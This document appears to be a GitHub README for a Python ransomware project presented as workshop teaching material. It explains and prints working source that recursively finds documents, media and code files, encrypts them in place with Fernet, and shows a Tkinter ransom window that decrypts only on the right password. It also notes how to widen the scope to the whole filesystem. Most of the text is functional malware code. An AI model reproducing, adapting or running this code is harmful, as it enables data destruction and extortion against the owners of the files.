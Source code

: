  <a target="_blank" href="Language" title="Language"><img src="https://img.shields.io/badge/language-python 3+-GREEN"></a>
# Ransome
Ransomeware is a type of malware that has the ablity to encrypt all the files on the device.
This code is written is python 3 for educational purposes only used in the Spyro event workshop malware creation organised by Engineers Spark FST and Google developers Club ENIT.
The code author is cybereagle2001 and the workshop was animated by the author.

## All requirements

tkinter : to create the graphical design 

os  : needed in file access

cryptography.fernet : the encryption algorithm used by the ransome

string : to generate the key

random : generation of the key

## Code explication 
this part of the code presents the main program. The ransome is made for educational purposes so we made sure that we are going to encrypt specified files only in the directory. 

For root,firs,files in os.walk(".") will allow us to search all the files in the directory and the sub directories if we are going to change '.' ==> '/' or 'C:\' depending on the operation system the ransome is going to encrypt all the system and users files.
```markdown
encrypted_ext=(".mp4",".py",".txt",".docx",".odt",".xlsx",".gif",".png",".jpeg",".pdf")

victim_file=[]
for root,dirs,files in os.walk('.'):
    for file in files:
        if (file =="cyber_ran.py"):
            continue
        else:
            file_path,file_ext= os.path.splitext(root+'/'+file)
            if file_ext in encrypted_ext:
                victim_file.append(root+'/'+file)
```

encrypt(victim_file) is the function that I wrote in order to encrypt the stored files using the fernet algorithm for that we need to generate a key and then use it to encrypt the files. To do so we are going to retrieve the content of the files as binary encrypt it and overright the files. thi sprocess is done by this code :

```
def encrypt(victim_file):
    key= Fernet.generate_key()
    for loop in victim_file:
        with open(loop,"rb") as file:
            content= file.read()
        content_enc= Fernet(key).encrypt(content)
        with open(loop,"wb") as file:
            file.write(content_enc)
```

after the encryption process we are going to generate the password that we will need to launch the decryption process to do so I wrote two main functions the first one is password_gen and the second one of decrypt.

Decrypt is going to reverse the encryption algorithm and use the fernet key to decrypt the files content.

the password generator is going to generate a random string. That string will allow the ransome to identify if the victim paied the ransome or not. If the input is equivalent to the value of the generated password it will start the decryption process and this is made by this code 

```
def decrypt(password,key):
    def button_command(password,key):
        key1=entry1.get()
        i=0
        if (key1 == password):
            for loop in victim_file:
                with open(loop,"rb") as file:
                    content= file.read()
                content_dec= Fernet(key).decrypt(content)
                with open(loop,"wb") as file:
                    file.write(content_dec)
            print("good boy you did well!!")
            quit()
        else:
             print("you are hacked!! don't play dump")

    root = Tk()
    root.title("ALL files are encrypted")
    root.geometry('400x200')
    entry1= Entry(root,width=200)
    entry1.pack()
    Button(root,text="decrypt",command=lambda:button_command(password,key)).pack()
    root.mainloop()

def password_gen(N=50):
	return ''.join(random.choice(string.ascii_uppercase + string.digits) for _ in range(N))
```

## Licence 
[MIT](https://choosealicense.com/licenses/mit/) ©cybereagle2001

Original author : cybereagle2001 
